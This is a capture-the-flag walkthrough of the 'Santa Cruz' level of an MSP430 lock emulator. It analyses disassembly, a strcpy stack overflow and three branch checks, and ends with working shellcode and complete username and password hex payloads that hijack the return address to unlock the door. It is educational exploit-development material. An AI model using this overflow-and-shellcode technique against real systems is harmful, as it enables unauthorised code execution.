---
layout:
  width: default
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
  tags:
    visible: true
  actions:
    visible: false
  anchors:
    visible: true
---

# Santa Cruz

In this challenge we must continue extending our skills in building a custom payload by including a few different bytes to meet later conditionals, which will enable us to reach the right code branch to cause our `return address` in our payload to be read.

## Analyzing `main`

After inspecting the strings section, it seems Santa Cruz implements a username as well as password. We will confirm this later in the `login` routine.



For now let's check out `main`



`main` adjusts the stack pointer to reserve 50 bytes, then calls `login`, writing its return address of `0x4440` to `0x43cc`.

### Two's Complement

I don't remember if we encountered a negative value represented in hex in any of the previous challenges, but I thought it would be worth to add a quick overview of `Two's Complement` in our series.

The first thing to learn is there are signed and unsigned integers. Signed integers can represent negative and positive numbers, unsigned integers can only represent zero and positive numbers or simply, non-negative values.

If you have a 4-bit number, the total possible values are `2^4 = 16`

* the possible unsigned values are `0 -> 15`
* the possible signed values are `-8 -> 7`

The 4-bit number always can represent a total of 16 numbers, the share that is positive or negative is the only thing that changes. Given any fixed-width bit pattern, the integer can be interpreted in either a signed or unsigned manner. Two's Complement defines the signed interpretation.

The way we can convert between signed and unsigned integers, is by taking the `Two's Complement` of it. It's super simple. https://www.cs.cornell.edu/\~tomf/notes/cps104/twoscomp.html You just flip every bit, then add one to the LSB. When looking at a signed integer, the value of the MSB indicates if it is positive or negative. A 1 in the MSB of a signed integer means it is negative. A 0 means it is positive.

With that understanding let's look at the operand from the `add` instruction in `main` at `0x4438`. The hex value `0xffce` is `65486` in decimal when unsigned. Below is the breakdown of the conversion from hex to binary, and binary to decimal.

| Hex     | F                       | F                 | C      | E     | Total  |
| ------- | ----------------------- | ----------------- | ------ | ----- | ------ |
| Binary  | 1111                    | 1111              | 1100   | 1110  | -      |
| Decimal | 32,768+16,384+8192+4096 | 2048+1024+512+256 | 128+64 | 8+4+2 | 65,486 |

When signed, we have to work a little differently. We take the first bit, see it's negative (set to 1) and then evaluate each of the remaining bits accordingly. I like to work backwards since it's usually faster.

So I would see `ffce` and think `the sum of the turned off bits + 1`. When you do it this way there are only three turned off bits (0s) in the integer: `1100 1110`

Their values are 32+16+1 = 49. Then negate it with two's complement (which add the one) and we get -50. You only need to calculate three bits vs 13 in your head which is a short cut in my book.

or the long way for when you need to confirm ....

| F                        | F                 | C      | E     | Total |
| ------------------------ | ----------------- | ------ | ----- | ----- |
| 1111                     | 1111              | 1100   | 1110  |       |
| -32,768+16,384+8192+4096 | 2048+1024+512+256 | 128+64 | 8+4+2 | -50   |

So really this `add` instruction is subtracting 50 from the stack pointer. Which makes sense because you are making room on the stack for the next function. And we all know the stack grows down ... right ... right guys?

Anyways enough on that tangent, let's go check out `login`



## `login`

This routine is probably the longest we have had to analyze yet. There does get a point where walking through every instruction is a waste of time, and it is better for an exploitation analyst to deploy a fuzzer like AFL and inspect the graph view in IDA to understand the code branches. The lines are even colored so you can see which branch is taken!



Unfortunately, this time we will stick to the manual analysis, to build up our skills. Let's work through one piece at a time. We will be skipping over the non-critical instructions such as moving a string and then printing it to keep it as short as we can.

```
4550 <login>

4550:  0b12           push	r11
4552:  0412           push	r4                     
4554:  0441           mov	sp, r4
4556:  2452           add	#0x4, r4
4558:  3150 d8ff      add	#0xffd8, sp
```

The function begins by saving some registers, saving the stack pointer, and then allocating 40 bytes more space on the stack. This is in preparation for a call to `puts` in a few more instructions.

```
455c:  c443 faff      mov.b	#0x0, -0x6(r4)
4560:  f442 e7ff      mov.b	#0x8, -0x19(r4)
4564:  f440 1000 e8ff mov.b	#0x10, -0x18(r4)
```

The old stack pointer in `r4` is indexed and used to write three values at particular offsets. By setting a breakpoint on `0x456a`, I observed `r4` to be `0x43cc`. With the value known, we can inspect the memory dump and see the values being written there.



These offsets will be important later on when they are used in some future `cmp` instructions, but as we will see in a moment, the actual values can be overwritten, and are thus less important.

```
4582:  3e40 6300      mov	#0x63, r14
4586:  3f40 0424      mov	#0x2404, r15
458a:  b012 1847      call	#0x4718 <getsn>

...

4596:  3e40 0424      mov	#0x2404, r14
459a:  0f44           mov	r4, r15
459c:  3f50 d6ff      add	#0xffd6, r15
45a0:  b012 5447      call	#0x4754 <strcpy>
```

The next part of `login` gets `0x63` or 99 characters of input from the user, and stores it at `0x2404`. Then a few instructions later, copies the input to `0x43cc - 42` = `0x43a2`. Again we must recognize `strcpy` will terminate early if the string contained a null terminator just like the last few levels, but aside from this limitation, we are able to overwrite the return address of the `login` routine. If we can also reach the return at `0x4666`, then we will gain control over the `pc` and achieve code execution.



Eventually, the same pattern is used to retrieve 99 characters of password input, and copy them from `0x2404` to `0x43b5`.

```
45ac:  3e40 6300      mov	#0x63, r14
45b0:  3f40 0424      mov	#0x2404, r15
45b4:  b012 1847      call	#0x4718 <getsn>

...

45c0:  0b44           mov	r4, r11
45c2:  3b50 e9ff      add	#0xffe9, r11
45c6:  3e40 0424      mov	#0x2404, r14
45ca:  0f4b           mov	r11, r15
45cc:  b012 5447      call	#0x4754 <strcpy>
```

In this sequence, the password input reuses the scratch buffer at `0x2404`. It is then copied to `0x43b5`, overwriting the corresponding portion of the username copy on the stack. The first 19 bytes, at `0x43a2–0x43b4`, remain untouched. But username bytes after the password's terminating NUL can survive, allowing us to retain the username input if needed, say for example padding and shellcode placed beyond the initial 19 bytes.



```
45d0:  0f4b           mov	r11, r15
45d2:  0e44           mov	r4, r14
45d4:  3e50 e8ff      add	#0xffe8, r14
45d8:  1e53           inc	r14
45da:  ce93 0000      tst.b	0x0(r14)            --- bitwise AND / cmp 0
45de:  fc23           jnz	$-0x6 <login+0x88>
```

This next grouping turns out to be some kind of loop which checks if the byte at the memory address in `r14` is 0. `r14` is initially calculated as `0x43cc` + `0xffe8` (really `0x43cc - 0x18` which is `0x43b4`) + 1 to make `0x43b5`. So `r14` is the first byte of the password input when the loop is first checked to be rerun.

```
45e0:  0b4e           mov	r14, r11
45e2:  0b8f           sub	r15, r11
```

This is basically checking to find where the last byte of the password is by finding the null terminator. The end of the loop results in `r11` holding the length of the password.

```
45e4:  5f44 e8ff      mov.b	-0x18(r4), r15
45e8:  8f11           sxt	r15
45ea:  0b9f           cmp	r15, r11
45ec:  0628           jnc	$+0xe <login+0xaa>      -jump not carry bit
```

### Check 1

The next few instructions are the first of three "checks" which will terminate the program if failed. This first one, makes sure the carry flag is not set after comparing `r11` with `r15`. We know from before `-0x18(r4) = -0x18(0x43cc) = 43b4` and verified this location is the last byte of the username above. So the first operand `r15`, will be that byte. The other operand, `r11`, we also know is the length of the password.

On the MSP430, `CMP src,dst` calculates `dst - src` and updates the status flags without storing the result. For unsigned subtraction, the carry flag is set when no borrow occurs (`dst >= src`) and cleared when a borrow occurs (`dst < src`). I was a little confused by this at first but some processors use the carry flag for subtraction differently [Vs. borrow Flag](https://en.wikipedia.org/wiki/Carry_flag)

I had to dig into a rabbit hole to figure out exactly why and clearly I wasn't the [first](https://stackoverflow.com/questions/69880558/carry-flag-in-msp430-is-confused)

The Texas Instruments MSP430 user guide defines `CMP src,dst` as `dst - src`. However, the LockIT Pro manual says `CMP arg1 arg2` computes `arg1 - arg2`, despite describing the general instruction format as source followed by destination. The two documents appear to disagree about the operand order for `CMP`.

This appears to be an inconsistency in the LockIT Pro documentation. For this analysis, we will follow the standard MSP430 instruction definition: `CMP src,dst` computes `dst - src`, and the carry flag is cleared when the subtraction borrows. We do not need to think of the carry flag as backwards; we just need to understand how it behaves during subtraction.

MSP430 Docs





LockItPro Docs



Here, `r15`, the `src`, contains the byte at address `0x43b4` and `r11`, the `dst` contains password length. Therefore, `cmp r15, r11` calculates `password_length - byte from username`. Since `getsn` limits the input to strictly fewer than 100 characters, the subtraction always borrows if we were to place `0x64` in the username byte location. The borrow ensures the carry flag is cleared, and `JNC` takes the branch no matter what our password length does end up being.

So to pass this check, we make sure our username ends in a number greater than the length of our password. At the moment, we know our input will contain our injected shellcode, because the username and password are both able to overwrite `0x43cc` where the `ret` needs to be positioned. But we don't know exactly how long each input will be, so for the moment, we will just place a holder of `0x64` in our username input, since a password length greater than that won't be read in by `getsn`. This will guarantee the first check is passed no matter what.

```
username payload

43a2                                                  43b4
 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 64

```

### Check 2

The next set of instructions is a similar check, but this time we do want the carry bit set to take the `jc`. The 2nd to last byte of the username, last time it was `-0x18(r4)` now it's `-0x19(r4)` or one byte previous, is compared with the length of the password, and we want it to be smaller. We used padding of `0x11`s in the username, so as long as our password is 17 or more bytes the `cmp` will set the carry bit according to the `MSP430` convention. We can adjust the padding later if our password needs to be shorter.

```
-> jnc jumps to here

45fa:  5f44 e7ff      mov.b	-0x19(r4), r15
45fe:  8f11           sxt	r15
4600:  0b9f           cmp	r15, r11
4602:  062c           jc	$+0xe <login+0xc0>     jump if carry bit
```

As it stands, a password of 17 bytes, would end at `0x43b5 + 0x11 = 43c6`. This is too short to overwrite the return address. However, our username input can be up to `0x63` bytes. The username is written between `0x43a2 and 0x4405`. This does cover `0x43cc`.

So after all is said and done, we can have the first part of the username payload from `0x43a2 to 0x43b4` include the 2 check bytes of `0x11 and 0x64` at the end, a password from `0x43b5 to 0x43c7`, and then the remainder of the username input from `0x43c7 to 0x4405`.

Making the payloads as it stands

```
username payload part 1

43a2                                                  43b4
 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 64
 
password payload 

43b5                                              43c6
22 22 22 22 22 22 22 22 22 22 22 22 22 22 22 22 22 00

username payload part 2

43c7           43cc     43ce                                       4405
11 11 11 11 11 ret_addr shellcode  .....
```

## `login` analysis continued

The next set of instructions builds up to the final of the three checks. Before the final check a call to `INT 7D` is made, with the `username`, `password`, and `0x43a0` as a `flag` location, supplied as arguments.



The LockItPro manual lists only two parameters for `INT 7d`, but the assembly shows three pushed arguments: the username buffer pointer, the password buffer pointer, and the flag destination address.

```
-> jc jumps to here

4610:  c443 d4ff      mov.b	#0x0, -0x2c(r4)
4614:  3f40 d4ff      mov	#0xffd4, r15
4618:  0f54           add	r4, r15
461a:  0f12           push	r15
461c:  0f44           mov	r4, r15
461e:  3f50 e9ff      add	#0xffe9, r15
4622:  0f12           push	r15
4624:  3f50 edff      add	#0xffed, r15
4628:  0f12           push	r15
462a:  3012 7d00      push	#0x7d
462e:  b012 c446      call	#0x46c4 <INT>
```

The next instructions are cleaning up the stack pointer after returning from `INT`, and then some conditional logic to open the door based on the results stored in the `flag` location.

```
4632:  3152           add	#0x8, sp
4634:  c493 d4ff      tst.b	-0x2c(r4)
4638:  0524           jz	$+0xc <login+0xf4>
```

We will take the jump since our input was incorrect, skipping over the access granted and unlock door call.

```
463a:  b012 4a44      call	#0x444a <unlock_door>
463e:  3f40 2145      mov	#0x4521 "Access granted.", r15
4642:  023c           jmp	$+0x6 <login+0xf8>
4644:  3f40 3145      mov	#0x4531 "That password is not correct.", r15
4648:  b012 2847      call	#0x4728 <puts>
```

No matter which branch is taken, the `puts` is called. After that comes our final check.

### Check 3

```
464c:  c493 faff      tst.b	-0x6(r4)
4650:  0624           jz	$+0xe <login+0x10e>
4652:  1f42 0024      mov	&0x2400, r15
4656:  b012 2847      call	#0x4728 <puts>
465a:  3040 4044      br	#0x4440 <__stop_progExec__>
465e:  3150 2800      add	#0x28, sp
4662:  3441           pop	r4
4664:  3b41           pop	r11
4666:  3041           ret
```

At `0x464c` a `tst.b -0x6(r4)` must set the zero flag. `-0x6(0x43cc) = 0x43c6`. Hmm, clever us, we already put a null terminator there to stop the password from getting longer than the padding bytes of `0x11` we were using. It just so happens this location also needed to be 0 to pass this last check.

### Final Payload

At this point our current payload can reach the `ret` and achieve code execution. We just need to insert the shellcode and correct `ret` to point to the start of the shellcode.

We use our same method as previous rooms, building a call to `INT 7f`.

```
mov #0x01ff, r15
sub #0x0180, r15                          -> r15 = 0x007f
push r15			
call <INT> #0x46c4 
```

The resulting shellcode is

```
 3f40ff01 3f808001 0f12 b012c446
```

In this case our `ret` address will be put before the shellcode, since it needs to align with `0x43cc` and there isn't enough room to fit it after since we will begin writing at `0x43c7`.

```
ce43 3f40ff01 3f808001 0f12 b012c446
```

We just need to combine the initial username input, with a little padding to align it, the return address, and the shellcode now.

So after constructing our username and password we have:

```
username: 111111111111111111111111111111111111641111111111111111111111111111111111111111111111ce433f40ff013f8080010f12b012c446
password: 222222222222222222222222222222222200
```

## Solution







## Security Takeaway

Santa Cruz demonstrates how just because the lock was upgraded from a single code to a username and password, it doesn't make it any more secure. The program attempted to enforce input length constraints, but the improper `strcpy` usage meant critical stack boundaries could be overwritten and completely corrupt adjacent variables. Not only does this result in crashes and memory corruption, but also by selectively satisfying downstream branch instructions, we were able to redirect execution to shellcode on the stack and bypass the lock.
